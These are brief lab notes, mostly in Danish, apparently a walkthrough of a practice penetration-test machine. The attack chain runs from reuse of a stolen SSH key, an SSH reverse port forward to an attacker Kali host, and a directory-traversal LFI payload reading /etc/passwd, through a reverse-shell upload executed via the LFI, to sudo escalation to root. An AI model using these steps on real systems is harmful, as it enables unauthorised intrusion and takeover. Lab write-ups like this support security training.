 brug id_ecdsa fra .245 til ssh login ->
se at der er en service på 127.0.0.1:8000
sæt remote ssh portforwarding ssh -N -R 127.0.0.1:2345:127.0.0.1:8000 kali@192.168.45.x ->
enum siden med ferox og find /backend/ side
LFI vuln (http://127.0.0.1:2345/backend/?view=../../../../../../../../../../../../../../../etc/passwd)
upload rev shell og kør som service user
http://127.0.0.1:2345/backend/?view=../../../../../../../../../../../../../../../dev/shm/cmd1.php

service user (www-data) har 
$ sudo -l
Matching Defaults entries for www-data on demo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on demo:
    (ALL) NOPASSWD: ALL

sudo cat /root/proof.txt

